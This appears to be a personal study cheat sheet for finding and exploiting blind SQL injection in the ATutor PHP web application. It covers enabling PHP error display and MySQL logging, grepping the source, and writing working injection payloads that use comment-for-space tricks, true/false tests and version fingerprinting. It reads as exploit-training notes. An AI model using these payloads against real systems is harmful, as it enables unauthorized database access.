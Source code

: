 ### Turn on Errors in PHP

> sudo nano /etc/php5/apache2/php.ini 
> Search (ctrl+w) for "display_errors = " and change Off to On
> sudo systemctl restart apache2

### Turn on logging in MySQL

> sudo nano /etc/mysql/my.cnf 
> Search (ctrl+w) for "general_log_file", enable this and general_log
> sudo systemctl restart mysql

Monitor MySQL Queries:
> tail -f /var/log/mysql/mysql.log

### Grep search: 
> grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" --color

### Information Gathering

> echo "<?php var_dump(get_magic_quotes_gpc()); ?>" > info.php
> echo "<?php echo 'PHP Version: ' . phpversion().\"\r\n\"; ?>" >> info.php

### SQL inline comments to replace spaces

> mysql> select/**/1;

### SQL Blind Injection Payloads

%23 is # sign, interpreted by MySQL as a comment, terminating the rest of the query

True:
> AAAA')/**/or/**/(select/**/1)=1%23

> select count(*) FROM AT_members M WHERE (first_name LIKE '%AAAA')/**/OR/**/ (select/**/1)=1#

False:
> AAAA')/**/or/**/(select/**/1)=0%23

> select count(*) FROM AT_members M WHERE (first_name LIKE '%AAAA')/**/OR/**/ (select/**/1)=0#

### Boolean based MySQL queries for use in blind injections

Establish the verison:

Is the version 4.xxxxx?
> select/**/(substring((select/**/version()),1,1))=4;

Or 5.xxxx?
> select/**/(substring((select/**/version()),1,1))=5;

NOTE: it is good practice to convert to ASCII to avoid issues with the payload (ASCII: 52=4, 53=5)

> select/**/ascii(substring((select/**/version()),1,1))=52;

> select/**/ascii(substring((select/**/version()),1,1))=53;
